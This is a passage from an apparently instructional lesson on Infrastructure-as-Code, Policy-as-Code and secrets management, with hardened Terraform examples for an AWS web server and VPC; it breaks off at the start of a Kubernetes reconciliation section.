









# Lesson 4: Infrastructure-as-Code, Configuration Management, Policy-as-Code

## 1. First-Principles Intuition & Invariants

Infrastructure-as-Code represents a fundamental inversion of operational epistemology. For decades, infrastructure existed as an artifact of imperative procedures: system administrators logged into servers, executed shell scripts, edited configuration files by hand, and the resulting state accumulated as a tangled record of manual interventions whose provenance vanished into institutional memory. This operational model proved inherently fragile because the ground truth of system state existed nowhere but in the running infrastructure itself. When disaster struck—a disk filled, a process crashed, a misconfigured firewall rule silently dropped packets—recovery required either expensive manual reconstruction or restoration from backups of uncertain freshness.

Infrastructure-as-Code inverts this relationship. Ground truth becomes a declarative specification committed to version control, and running infrastructure becomes a *projection* of that specification onto physical hardware. This projection is computed by orchestration engines that continuously reconcile observed state against desired state. The shift moves from "what commands did I run" to "what should the world look like," and from "tell me the current state" to "show me the difference between declaration and reality."



This declarative model rests on a mathematical foundation drawn from distributed systems theory: *idempotency* and *eventual consistency*. An idempotent operation produces identical results whether executed once or multiple times against the same precondition. When you declare that a Kubernetes cluster should contain exactly three replicas of a service, running the reconciliation loop once or ten times yields the same outcome—three healthy pods. This idempotence is not accidental but designed into every respectable orchestration tool. Without it, transient network failures or automated retries would cascade into state corruption.

Eventual consistency means the orchestration system makes no guarantee of instantaneous correctness, only that if left undisturbed and given sufficient time, the system converges to the desired state. The formal guarantee resembles the eventual consistency model of distributed databases: given no new writes and no infinite crash-restart loops, the system will reach the declared state. A crashed pod triggers detection within the kubelet heartbeat period (default 40 seconds for `node-not-ready` tolerance). An unresponsive node triggers workload eviction after the `pod-eviction-timeout` (historically 5 minutes, now configurable per taint). The system continuously drifts toward correctness rather than enforcing correctness instantaneously through distributed transactions—which would require global locks and would destroy scalability.

Configuration management layered atop IaC introduces another critical invariant: *immutability*. Traditional configuration management allowed operators to mutate settings on running systems. A `puppet apply` or `ansible-playbook` run caused processes to reload or restart. But this created a temporal window during which on-disk configuration diverged from the in-memory process state. Two servers that should be identical could diverge because one was patched at a different time, by a different operator, using a different tool version—a property known as *configuration drift*. The divergence is usually silent and only manifests during failures, making diagnosis extremely difficult.

Immutable infrastructure eliminates this window. Instead of mutating running servers, infrastructure changes produce new artifacts—OCI container images, AWS AMIs baked by Packer, or freshly provisioned clusters—deployed atomically to replace the old artifact. The old artifact is decommissioned. This approach treats infrastructure as an application of the Unix philosophy that programs are simply data that happen to be executable: just as we rebuild applications from source rather than patching running processes, we rebuild infrastructure artifacts from declarative specifications rather than patching running machines. The practical consequence is that the history of every infrastructure version is preserved as an immutable image layer, enabling instantaneous rollback to any prior version.

Policy-as-Code represents the next abstraction layer in the control hierarchy. IaC describes what resources should exist; policy describes invariants that must hold across any set of resources. A policy might state "all S3 buckets must have server-side encryption enabled," "all Kubernetes pods must have CPU and memory limits," or "IAM roles granting administrative access must require MFA." Policies are code—written in declarative languages like Rego (Open Policy Agent), HCL (Terraform Sentinel), or CEL (Common Expression Language)—and version controlled alongside infrastructure specifications. They are evaluated automatically during planning phases, blocking non-compliant changes before resources reach production, and audited continuously against running resources to detect drift or violations introduced by out-of-band changes.



The security implications are architecturally profound. In traditional operations, security is enforced through access control: only certain people can log into certain servers and run certain commands. This model scales poorly because access control is a negative space—it restricts who can act, but does not constrain what any action will produce. Policy-as-Code shifts enforcement to the *declarative contract itself*. A policy engine rejects any infrastructure change that violates security constraints *before instantiation*, regardless of who authored the change. This achieves defense-in-depth through layered semantic constraints rather than layered access controls. A developer can be granted broad permission to merge pull requests but cannot ship infrastructure that violates encryption, logging, or network isolation policies.

State management security emerges as a critical concern because IaC orchestration engines must maintain persistent state about managed infrastructure. Terraform stores state files containing resource IDs, DNS names, database connection strings, and other sensitive metadata in JSON format. Kubernetes stores cluster state in etcd, which holds secrets, service account tokens, and configuration maps. These state repositories become *high-value attack targets*: state compromise allows an attacker to learn the complete topology of running infrastructure, forge resource relationships to confuse reconciliation engines, or inject malicious state causing orchestration engines to delete or misconfigure resources on the next reconciliation cycle. State stores require encryption at rest, strict access control, and comprehensive audit logging—security controls that far exceed what most teams apply to them in practice.

GitOps workflow security introduces the principle that all infrastructure changes flow exclusively through version control and CI/CD pipelines. No operator manually applies infrastructure changes directly against cloud APIs; instead, changes are committed to Git, reviewed by peers, verified by automated tests and policy engines, and only then automatically deployed by a privileged operator service account running in a restricted environment. This creates an auditable, immutable chain of custody for every infrastructure change and enables *declarative access control*: authorization decisions are made based on Git branch protections, CODEOWNERS rules, and merge approval requirements rather than UNIX file permissions or cloud IAM roles. The service account performing the actual apply operation is a machine identity with minimal human interaction.

---

## 2. Core Architecture & Mechanics

The architecture of modern IaC systems rests on a feedback loop between three primary components: the declarative specification, the orchestration engine, and the observed state sensor. These components interact through a *reconciliation cycle* that operates as a closed control loop directly analogous to a PID controller regulating a physical system—the error signal is the diff between desired and observed state, and the control output is the set of API calls required to drive that error to zero.



The declarative specification is the source of truth. Written in domain-specific languages like Terraform HCL, Kubernetes YAML, Pulumi TypeScript, or AWS CloudFormation templates, this specification describes desired infrastructure state without prescribing the sequence of operations required to achieve it. A Terraform configuration might declare that an AWS VPC should exist with specific CIDR blocks, subnet configurations, and routing tables, but it does not specify whether to create the VPC first or the subnets first—the orchestration engine infers the dependency graph via a directed acyclic graph (DAG) derived from attribute reference expressions and executes operations in topologically sorted order. This separation of *what* from *how* is what makes declarative IaC fundamentally more maintainable than imperative scripts.



The orchestration engine is the reconciliation workhorse. Terraform, Kubernetes controllers, Ansible, CloudFormation, and Pulumi all implement variations of the same loop: read desired state from specification, query actual state from the target environment, compute the difference, and execute a plan to converge actual toward desired. The engine must handle resource dependencies, transient failures, retry logic, and consistency in the face of partial failures—all without an external coordinator. Each major tool makes different trade-offs:

- **Terraform** uses an explicit state file to track resource identity across invocations, enabling it to rename or move resources without reprovisioning. This is architecturally necessary because cloud providers do not expose a stable query API for "find all resources matching this logical description"—Terraform must remember the mapping from logical name to provider-assigned ID.
- **Kubernetes controllers** use the API server as the state store and implement the reconciler pattern where controllers watch resource objects and react to changes. Because the API server is the authoritative state store, there is no separate state file; the controller's job is simply to make physical reality match what the API server records.
- **AWS CloudFormation** maintains its own stack state server-side, eliminating the client-side state file problem but coupling you to a specific provider.
- **Pulumi** uses the same state backend concept as Terraform but allows the specification to be written in general-purpose programming languages (TypeScript, Python, Go, C#), enabling abstraction mechanisms unavailable in DSLs.

Dependency resolution is a core orchestration engine responsibility. Resources have implicit ordering constraints: a Kubernetes Deployment cannot be created until the Namespace exists; an AWS EC2 instance cannot launch until its VPC, subnet, and security groups are provisioned; a database migration cannot run until the database server is accepting connections. Orchestration engines build a DAG representing these constraints and execute operations in topologically sorted order. Terraform infers dependencies automatically from HCL attribute references (`aws_security_group.web.id` appearing in an EC2 resource creates an edge in the graph); Kubernetes uses owner references and finalizers to encode parent-child relationships that control deletion ordering.

Error handling is what distinguishes production-grade orchestration from naive scripts. Transient failures—API rate limits (HTTP 429), network timeouts, eventual consistency delays after resource creation—must trigger retries with exponential backoff and jitter to prevent thundering-herd effects on provider APIs. Permanent failures—invalid credentials, quota exhaustion, resource naming conflicts—must halt reconciliation and report errors without corrupting state. Partial failures—where some operations in a plan succeed and others fail—require careful state management to record the partial progress so the next reconciliation resumes correctly rather than reapplying already-succeeded operations (which would be idempotent in well-designed systems but can produce errors in poorly designed ones).

**Drift detection** closes the outer reconciliation loop. Drift occurs when running infrastructure diverges from declared specification due to manual console changes, cloud provider autoscaling, or external automation. Orchestration engines detect drift by periodically comparing observed state against desired state. Terraform's `terraform plan -refresh-only` refreshes the state file from actual provider state without proposing configuration changes, exposing drift as a plan diff. Kubernetes' continuous control loops detect drift within seconds and optionally remediate automatically. The choice between *alerting on drift* versus *auto-remediating drift* is a critical operational decision: auto-remediation is safer from a security standpoint but can suppress legitimate autoscaling actions.

**State locking** prevents concurrent modifications from corrupting state. When multiple CI/CD pipelines attempt to modify the same infrastructure stack simultaneously, race conditions can produce conflicting operations or leave state in an indeterminate state. Terraform implements advisory locking using DynamoDB conditional writes (for S3 backends), GCS object lock, or Azure Blob Storage leases. The lock record contains the lock ID, the caller's identity, and a timestamp. Terraform Cloud implements locking at the workspace level with a queue of pending operations. Without locking, two concurrent `terraform apply` operations might both attempt to create the same resource, with one succeeding, leaving orphaned infrastructure and inconsistent state.

**Secrets management** in IaC workflows presents a fundamental tension. Infrastructure specifications must reference credentials, API keys, database passwords, and TLS certificates, but these secrets cannot be committed to version control in plaintext—and critically, they cannot appear in CI/CD logs or state files. The principal solutions are:

- **HashiCorp Vault dynamic secrets**: Vault generates short-lived, automatically revoked credentials on demand. The orchestration engine authenticates to Vault using its cloud identity (AWS IAM role, GCP service account, Kubernetes service account) and retrieves credentials with bounded TTL. Because credentials expire, rotation is implicit.
- **Cloud-native secret managers** (AWS Secrets Manager, GCP Secret Manager, Azure Key Vault): Secrets are referenced by ARN or resource path rather than value. The orchestration engine fetches the value at runtime using its IAM role.
- **SOPS** (Secrets OPerationS): SOPS encrypts specific values within YAML, JSON, or `.env` files using KMS, PGP, or age keys. Encrypted files can be safely committed to Git. The orchestration engine decrypts at runtime. Only secret values are encrypted; structure and keys remain in plaintext, preserving diff readability.
- **Kubernetes Sealed Secrets**: Encrypted secret manifests (`SealedSecret` CRDs) are committed to Git and decrypted by a controller running in the cluster. The private key never leaves the cluster.
- **External Secrets Operator (ESO)**: A Kubernetes operator that synchronizes secrets from external stores (Vault, AWS Secrets Manager, GCP Secret Manager) into Kubernetes `Secret` objects at runtime. ESO is the current preferred pattern for Kubernetes secret injection because it separates secret storage from secret consumption.

The critical invariant: **secret values must never appear in state files, plan outputs, CI/CD logs, or Git history.** Terraform's `sensitive = true` variable attribute prevents values from appearing in `terraform plan` output but does *not* redact them from state files. State files must be encrypted separately.

---

## 3. Implementation Patterns & Trade-Offs

### Terraform: Declarative Infrastructure with Explicit State

Terraform pioneered the provider plugin architecture that enables a single declarative language to provision resources across AWS, Azure, GCP, Kubernetes, GitHub, Datadog, and thousands of other platforms. Providers are Go binaries that implement the Terraform Plugin Protocol (gRPC-based as of provider framework v6), exposing resource schemas and CRUD operations. The `terraform` binary downloads provider binaries from the Terraform Registry (or a private mirror) during `terraform init`, verifies checksums against a lock file (`.terraform.lock.hcl`), and communicates with them via a local gRPC socket.

Terraform configurations are written in HCL (HashiCorp Configuration Language), a JSON-compatible language designed for human readability. HCL supports expressions, functions, loops (`for_each`, `count`), conditionals, and module composition. The following example demonstrates a production-grade pattern for an EC2 web server with proper security group configuration, IAM instance profile, and encrypted storage:

```hcl
# versions.tf — pin provider versions for reproducibility
terraform {
  required_version = ">= 1.6.0"

  required_providers {
    aws = {
      source  = "hashicorp/aws"
      version = "~> 5.30"
    }
  }

  backend "s3" {
    bucket         = "my-org-terraform-state"
    key            = "prod/webserver/terraform.tfstate"
    region         = "us-east-1"
    encrypt        = true
    kms_key_id     = "arn:aws:kms:us-east-1:123456789012:key/mrk-abc123"
    dynamodb_table = "terraform-state-lock"
  }
}

# locals.tf — derived values and tag standards
locals {
  common_tags = {
    Environment = var.environment
    ManagedBy   = "terraform"
    Owner       = var.team_name
    CostCenter  = var.cost_center
  }
}

# main.tf — web server resources
data "aws_ami" "amazon_linux_2023" {
  most_recent = true
  owners      = ["amazon"]

  filter {
    name   = "name"
    values = ["al2023-ami-2023*-x86_64"]
  }

  filter {
    name   = "virtualization-type"
    values = ["hvm"]
  }
}

resource "aws_iam_instance_profile" "web" {
  name = "${var.environment}-web-instance-profile"
  role = aws_iam_role.web.name
  tags = local.common_tags
}

resource "aws_iam_role" "web" {
  name = "${var.environment}-web-role"
  tags = local.common_tags

  assume_role_policy = jsonencode({
    Version = "2012-10-17"
    Statement = [{
      Effect    = "Allow"
      Principal = { Service = "ec2.amazonaws.com" }
      Action    = "sts:AssumeRole"
    }]
  })
}

# Attach SSM Session Manager policy so we never need SSH keys
resource "aws_iam_role_policy_attachment" "ssm" {
  role       = aws_iam_role.web.name
  policy_arn = "arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore"
}

resource "aws_security_group" "web" {
  name        = "${var.environment}-web-sg"
  description = "Allow inbound HTTPS from ALB only; all egress"
  vpc_id      = var.vpc_id
  tags        = local.common_tags

  # No SSH ingress — use SSM Session Manager
  ingress {
    description     = "HTTPS from ALB"
    from_port       = 443
    to_port         = 443
    protocol        = "tcp"
    security_groups = [var.alb_security_group_id]
  }

  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }

  lifecycle {
    create_before_destroy = true
  }
}

resource "aws_instance" "web" {
  ami                    = data.aws_ami.amazon_linux_2023.id
  instance_type          = var.instance_type
  subnet_id              = var.private_subnet_id
  vpc_security_group_ids = [aws_security_group.web.id]
  iam_instance_profile   = aws_iam_instance_profile.web.name

  # No public IP — accessed via ALB and managed via SSM
  associate_public_ip_address = false

  metadata_options {
    # Require IMDSv2 to prevent SSRF-based credential theft
    http_endpoint               = "enabled"
    http_tokens                 = "required"
    http_put_response_hop_limit = 1
  }

  root_block_device {
    volume_type           = "gp3"
    volume_size           = 20
    encrypted             = true
    kms_key_id            = var.ebs_kms_key_arn
    delete_on_termination = true
  }

  user_data = base64encode(templatefile("${path.module}/userdata.sh.tpl", {
    environment = var.environment
    region      = var.aws_region
  }))

  tags = merge(local.common_tags, { Name = "${var.environment}-web" })

  lifecycle {
    ignore_changes = [
      # Prevent Terraform from replacing instance when AMI is updated
      # AMI updates are handled via rolling replacement in the ASG
      ami,
    ]
  }
}
```

Terraform's state file is both its greatest strength and its Achilles' heel. The state file is a JSON document that maps logical resource names in HCL to physical resource identifiers in the cloud provider, along with all attribute values. This mapping enables Terraform to track resources across invocations and compute minimal diffs. But state becomes a shared mutable bottleneck. If state is corrupted or if resources are created out-of-band (bypassing Terraform), the state diverges from reality. The `terraform import` command imports existing resources into state; `terraform state rm` removes orphaned state entries; `terraform state mv` renames state entries during refactors. All these operations are surgical interventions on the state file and require exclusive lock acquisition.

**Remote state and cross-stack references** are essential patterns in large environments. Monolithic Terraform configurations that manage all infrastructure in a single state file create blast radius problems: a failed `terraform apply` locks all infrastructure changes. Decomposing infrastructure into smaller stacks with well-defined interfaces—using `terraform_remote_state` data sources or Terraform Cloud's shared outputs—isolates failures and enables independent team ownership.

```hcl
# In the application stack, reference outputs from the networking stack
data "terraform_remote_state" "networking" {
  backend = "s3"
  config = {
    bucket = "my-org-terraform-state"
    key    = "prod/networking/terraform.tfstate"
    region = "us-east-1"
  }
}

# Use the VPC ID exported by the networking stack
resource "aws_instance" "app" {
  subnet_id = data.terraform_remote_state.networking.outputs.private_subnet_ids[0]
  # ...
}
```

Terraform modules enable composition and reuse. A module is a directory of Terraform files that accepts input variables, creates resources, and exports output values. Modules are versioned and published to the Terraform Registry or private module registries. The module contract—its input variables and output values—is the interface that consuming configurations depend on; internal implementation details can change without breaking consumers.

```hcl
# Production-grade VPC module invocation
module "vpc" {
  source  = "terraform-aws-modules/vpc/aws"
  version = "5.4.0"       # pin exact minor version; review before bumping

  name = "${var.environment}-vpc"
  cidr = "10.0.0.0/16"

  azs              = ["us-east-1a", "us-east-1b", "us-east-1c"]
  private_subnets  = ["10.0.1.0/24", "10.0.2.0/24", "10.0.3.0/24"]
  public_subnets   = ["10.0.101.0/24", "10.0.102.0/24", "10.0.103.0/24"]
  database_subnets = ["10.0.201.0/24", "10.0.202.0/24", "10.0.203.0/24"]

  enable_nat_gateway     = true
  single_nat_gateway     = false   # HA: one NAT per AZ
  enable_vpn_gateway     = false
  enable_dns_hostnames   = true
  enable_dns_support     = true

  # VPC Flow Logs to S3 for security forensics
  enable_flow_log                      = true
  create_flow_log_cloudwatch_log_group = false
  flow_log_destination_type            = "s3"
  flow_log_destination_arn             = var.flow_logs_s3_bucket_arn

  tags = local.common_tags
}
```

**The `terraform plan` determinism guarantee** is architecturally important. Given identical state, configuration, and provider responses, `terraform plan` produces a deterministic output. This determinism enables plan-based CI workflows: generate a plan, store it as a signed artifact, review it in a pull request, and apply the exact reviewed plan rather than re-running plan at apply time (which could produce different results if configuration changed between plan and apply). The `terraform apply planfile` invocation applies a saved plan file, ensuring what was reviewed is exactly what is applied.

### Kubernetes: Continuous Reconciliation with Eventual Consistency

Kubernetes' architecture is built around the *level-triggered* reconciliation model rather than edge-triggered event handling. A level-triggered system reacts to the current state of the world, not to the event that caused a state transition. This distinction is critical for reliability: if a controller misses an event (network partition, controller restart), it recovers correctly on the next reconciliation cycle because it examines current state rather than trying to replay missed events.

